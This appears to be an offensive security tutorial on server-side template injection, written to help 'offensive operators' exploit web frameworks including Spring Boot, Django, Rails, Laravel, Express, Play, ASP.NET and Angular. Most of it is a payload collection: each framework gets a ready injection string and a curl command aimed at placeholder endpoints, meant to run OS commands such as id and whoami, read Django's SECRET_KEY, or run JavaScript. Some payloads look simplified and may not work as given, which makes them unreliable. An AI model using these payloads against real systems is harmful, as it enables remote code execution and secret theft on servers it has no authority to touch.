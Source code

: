 ```yaml
---
title: Framework-Specific Attacks in Web Applications
description: Learn to exploit SSTI vulnerabilities in web frameworks like Django,
  Laravel, and Spring Boot.
keywords:
- SSTI
- web frameworks
- Spring Boot
- Django Template Injection
- Laravel Blade Injection
- web application security
- framework-specific attacks
- server-side template injection
- remote code execution
- template engines
---
```


# Framework-Specific Attacks

## Context

The goal of this article is to enable offensive operators to exploit Server-Side Template Injection (SSTI) vulnerabilities within specific web frameworks by utilizing their unique syntax, primitives, and exploitation chains. It is assumed that the reader is familiar with template engines, server-side rendering, web application architecture, and basic SSTI techniques.

## Theory

### Framework-Specific SSTI Primitives

Every web framework typically employs a specific template engine characterized by its unique syntax and execution context. Understanding these nuances is crucial for crafting effective exploitation payloads. The core principle of exploiting SSTI vulnerabilities involves recognizing how a template language provides access to backend objects or functions that can be abused. 

Frameworks might unintentionally expose dangerous objects, methods, or bypasses due to insecure evaluation of templates. This vulnerability model allows attackers to execute arbitrary code or access sensitive information.

### Attack Surface by Framework

To execute a successful attack, it is essential to identify the template engine employed by a web application. This can be accomplished through error messages, leaked source code, or observed behavior. Once identified, an attacker can craft payloads using framework-specific syntax to test for code execution or access to sensitive objects. 

The attack sequence involves escalating from proof-of-concept payloads to full remote code execution or data extraction by exploiting engine-specific features. Mastery of these techniques can enable an attacker to manipulate the application's backend processes effectively.

## Practice

### Spring Boot (Spring Expression Language - SpEL) SSTI Exploitation

- **Payload:**

  ```bash
  ${T(java.lang.Runtime).getRuntime().exec('id')}
  ```

  This payload allows execution of an OS command via SpEL injection.

- **Command Line:**

  ```bash
  curl -d "input=${T(java.lang.Runtime).getRuntime().exec('id')}" http://target/spring-endpoint
  ```

  Execute the crafted payload by sending it to a vulnerable endpoint.

**Outcome:** Achieve OS command execution through SpEL injection.

### Django Template Injection Exploitation

- **Payload:**

  ```python
  {{ settings.SECRET_KEY }}
  ```

  This payload accesses sensitive Django settings through template injection.

- **Command Line:**

  ```bash
  curl -d "input={{ settings.SECRET_KEY }}" http://target/django-endpoint
  ```

  Deliver the payload to a vulnerable Django endpoint.

**Outcome:** Extract sensitive configuration data from Django settings.

### Ruby on Rails ERB Template Injection

- **Payload:**

  ```ruby
  <%= `id` %>
  ```

  This payload executes an OS command using ERB template injection.

- **Command Line:**

  ```bash
  curl -d "input=<%= `id` %>" http://target/rails-endpoint
  ```

  Send the payload to Rails endpoint.

**Outcome:** Execute arbitrary OS commands through ERB injection.

### Laravel Blade Template Injection

- **Payload:**

  ```php
  {{ system('id') }}
  ```

  This payload invokes PHP's `system()` function via Blade template injection.

- **Command Line:**

  ```bash
  curl -d "input={{ system('id') }}" http://target/laravel-endpoint
  ```

  Funnel the payload through the Laravel endpoint.

**Outcome:** Achieve OS command execution via Blade injection.

### Express Handlebars SSTI Exploitation

- **Payload:**

  ```javascript
  {{#with "s" as |string|}}{{#with string.constructor as |cons|}}{{cons.prototype.eval("process.mainModule.require('child_process').execSync('id').toString()")}}{{/with}}{{/with}}
  ```

  This payload abuses Handlebars prototype pollution to execute commands.

- **Command Line:**

  ```bash
  curl -d "input=<payload>" http://target/express-endpoint
  ```

  Dispatch the payload to the target endpoint.

**Outcome:** Execute OS commands via Handlebars SSTI.

### Play Framework Scala Template Injection

- **Payload:**

  ```scala
  @{new java.lang.ProcessBuilder("id").start()}
  ```

  This payload uses Java ProcessBuilder through Scala template injection.

- **Command Line:**

  ```bash
  curl -d "input=@{new java.lang.ProcessBuilder(\"id\").start()}" http://target/play-endpoint
  ```

  Propagate the payload to a vulnerable endpoint.

**Outcome:** Achieve command execution via Play Scala templates.

### ASP.NET Razor Template Injection

- **Payload:**

  ```csharp
  @{System.Diagnostics.Process.Start("cmd.exe", "/c whoami")}
  ```

  Execute Windows commands through Razor template injection.

- **Command Line:**

  ```bash
  curl -d "input=@{System.Diagnostics.Process.Start('cmd.exe','/c whoami')}" http://target/aspnet-endpoint
  ```

  Transmit the payload to the endpoint.

**Outcome:** Execute Windows commands via Razor SSTI.

### Angular Template Injection (Client-Side)

- **Payload:**

  ```javascript
  {{constructor.constructor('alert(document.domain)')()}}
  ```

  Trigger JavaScript execution via Angular template injection.

- **Command Line:**

  ```bash
  curl -d "input={{constructor.constructor('alert(document.domain)')()}}" http://target/angular-endpoint
  ```

  Execute the payload on a vulnerable endpoint.

**Outcome:** Run JavaScript in the client context using Angular template injection.

## Tools

- **curl**
- **Burp Suite**
- **wfuzz**
- **ffuf**